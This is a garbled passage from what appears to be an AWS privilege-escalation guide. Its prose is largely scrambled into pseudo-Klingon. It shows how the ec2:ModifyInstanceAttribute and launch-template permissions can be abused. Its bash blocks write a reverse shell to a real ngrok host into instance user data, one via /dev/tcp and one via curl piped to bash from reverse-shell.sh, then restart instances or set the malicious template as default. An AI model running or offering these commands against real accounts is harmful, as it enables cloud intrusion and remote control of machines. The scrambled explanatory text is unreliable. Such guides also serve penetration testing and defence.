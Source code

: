 ### `ec2:ModifyInstanceAttribute`

**`ec2:ModifyInstanceAttribute`** vItlhutlh attacker vItlhutlh instances attributes. vaj, **user data** vItlhutlh, vaj 'oH **run arbitrary data**. vaj 'oH **rev shell to the EC2 instance**.

vItlhutlh attributes **modified while the instance is stopped**, so the **permissions** **`ec2:StopInstances`** vaj **`ec2:StartInstances`**.
```bash
TEXT='Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
bash -i >& /dev/tcp/2.tcp.ngrok.io/14510 0>&1
--//'
TEXT_PATH="/tmp/text.b64.txt"

printf $TEXT | base64 > "$TEXT_PATH"

aws ec2 stop-instances --instance-ids $INSTANCE_ID

aws ec2 modify-instance-attribute \
--instance-id="$INSTANCE_ID" \
--attribute userData \
--value file://$TEXT_PATH

aws ec2 start-instances --instance-ids $INSTANCE_ID
```
**Qapla'!** **QaD** **potlh** **ec2:CreateLaunchTemplateVersion**, **ec2:CreateLaunchTemplate**, **ec2:ModifyLaunchTemplate** **permissions** **lo'laHbe'** **'ej** **'ej** **'ej** **Launch Template version** **new** **create** **'ej** **rev shell** **user data** **'ej** **EC2 IAM Role** **'e'** **any**, **default version** **change**, **Autoscaler group** **'ej** **Launch Template** **using** **configured** **'e'** **'ej** **latest** **or** **default version** **re-run** **instances** **execute** **rev shell**.

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 create-launch-template-version \
--launch-template-name bad_template \
--launch-template-data "{\"ImageId\": \"ami-0c1bc246476a5572b\", \"InstanceType\": \"t3.micro\", \"IamInstanceProfile\": {\"Name\": \"ecsInstanceRole\"}, \"UserData\": \"$REV\"}"

aws ec2 modify-launch-template \
--launch-template-name bad_template \
--default-version 2
```
